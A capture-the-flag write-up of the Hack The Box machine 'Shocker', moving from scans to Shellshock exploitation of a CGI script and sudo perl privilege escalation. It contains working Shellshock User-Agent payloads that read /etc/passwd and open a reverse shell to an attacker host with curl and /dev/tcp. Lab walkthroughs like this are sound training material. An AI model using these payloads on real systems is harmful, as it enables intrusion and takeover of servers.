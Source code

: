 ```yaml
---
layout: PostSimple
date: 2019-12-03
title:     "Hack The Box - Shocker"
tags: ['linux','easy','sudo','shellshock']
layout: post
categories: HackTheBox OSCP-Like
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/1.png)

We are going to pwn Shocker from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/108>


Like always begin with our Nmap Scan.

## Nmap Scan Results
```bash
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 4.2 (95%), Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.8 - 3.11 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 4.4 (95%), Linux 4.8 (94%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Check whats in the webpage<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/2.png)

Like always lets try bruteforcing the webpage to find any interesting page.

## Gobuster Results

```bash
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/12/02 21:00:28 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/cgi-bin/ (Status: 403)
/index.html (Status: 200)
/server-status (Status: 403)
===============================================================
2019/12/02 21:04:36 Finished
===============================================================
```
> /cgi-bin  is a folder used to house scripts that will interact with a Web browser to provide functionality for a Web page or website. 

## Checking ShellShock Exploit 

May be if we found any scripts available on ``/cgi-bin/`` we can do ``shellshock`` exploit as the name of the box ``Shocker`` gives us a clue.

Lets bruteforce `` /cgi-bin/ `` , I gave extensions as ``sh,py,pl`` to check for any scripts.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/3.png)<br/>
My guess is correct there is an ``user.sh`` script available

For more info
> https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/

## Getting Shell

There is a module for shellshock exploit, Lets fire up the metasploit

> use exploit/multi/http/apache_mod_cgi_bash_env_exec

We need to give the location of the script in ``TARGETURI`` 
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/4.png)

Lets check first whether it is vulnerable or not!
It is Vulnerable so run this and we can get an shell.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/5.png)

We have an user called ``shelly``

## Privilege Escaltion

I uploaded my Linux Enumeration Script and found that ``perl`` can run as root without password.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/6.png)

Lets check GTFOBins

>https://gtfobins.github.io/gtfobins/perl/

``sudo perl -e 'exec "/bin/sh";``

Running this command will make us root

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/7.png)

We got ROOT ~

## Method 2 (Without Metasploit)

We can get shell without using metasploit

By injecting the `UserAgent` Manually I can read the `/etc/passwd` so by using this I can get reverse shell too.
```bash
root@kali:~/Downloads# echo -e "HEAD /cgi-bin/user.sh HTTP/1.1\r\nUser-Agent: () { :;}; echo \$(</etc/passwd)\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc 10.10.10.56 80
HTTP/1.1 200 OK
Date: Tue, 07 Jul 2020 04:21:30 GMT
Server: Apache/2.4.18 (Ubuntu)
root: x:0:0:root:/root:/bin/bash
daemon: x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin: x:2:2:bin:/bin:/usr/sbin/nologin
sys: x:3:3:sys:/dev:/usr/sbin/nologin
sync: x:4:65534:sync:/bin:/bin/sync
games: x:5:60:games:/usr/games:/usr/sbin/nologin
man: x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp: x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail: x:8:8:mail:/var/mail:/usr/sbin/nologin
news: x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp: x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy: x:13:13:proxy:/bin:/usr/sbin/nologin
www-data: x:33:33:www-data:/var/www:/usr/sbin/nologin
backup: x:34:34:backup:/var/backups:/usr/sbin/nologin
list: x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc: x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats: x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody: x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync: x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network: x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve: x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy: x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog: x:104:108::/home/syslog:/bin/false
_apt: x:105:65534::/nonexistent:/bin/false
lxd: x:106:65534::/var/lib/lxd/:/bin/false
messagebus: x:107:111::/var/run/dbus:/bin/false
uuidd: x:108:112::/run/uuidd:/bin/false
dnsmasq: x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd: x:110:65534::/var/run/sshd:/usr/sbin/nologin
shelly: x:1000:1000:shelly,,,:/home/shelly:/bin/bash
Connection: close
Content-Type: text/x-sh
```

Reference:
>https://medium.com/@hackbotone/shellshock-attack-on-a-remote-web-server-d9124f4a0af3

So All we need to do is run this command on our machine and listening on another terminal

```bash
curl -A '() { :; }; /bin/bash -i > /dev/tcp/10.10.14.17/9000 0<&1 2>&1' http://10.10.10.56/cgi-bin/user.sh
```

It is injecting on the `` User-Agent `` on the request header.

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-shocker/8.png)

WE got ``shelly`` and Privilege Escalation is as same as before.